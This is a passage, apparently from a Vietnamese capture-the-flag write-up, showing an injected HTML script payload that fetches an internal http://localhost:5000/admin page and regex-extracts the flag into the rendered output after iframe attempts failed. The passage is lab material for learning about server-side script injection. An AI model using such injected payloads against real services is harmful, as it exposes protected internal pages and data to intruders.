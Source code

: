![Untitled](writeup_media/Untitled%2022.png)

Sau một hồi dùng `iframe`  và dùng javascript để chèn page `/admin` vào áo nhưng toàn bị lỗi parser, mình nhận ra có thể thử dùng regex để trích flag trong trang `/admin` thay vì in cả trang ra.

```html
<script>
    var xmlHttp = new XMLHttpRequest();
    xmlHttp.open("GET", "http://localhost:5000/admin", false);
    xmlHttp.send(null);
    var a = xmlHttp.responseText;
    var myRegexp = /(flag{.*})/;
    var match = myRegexp.exec(a);
    document.write(match[1]);
</script>
```

Khá may là flag nằm trong trang `/admin` luôn.
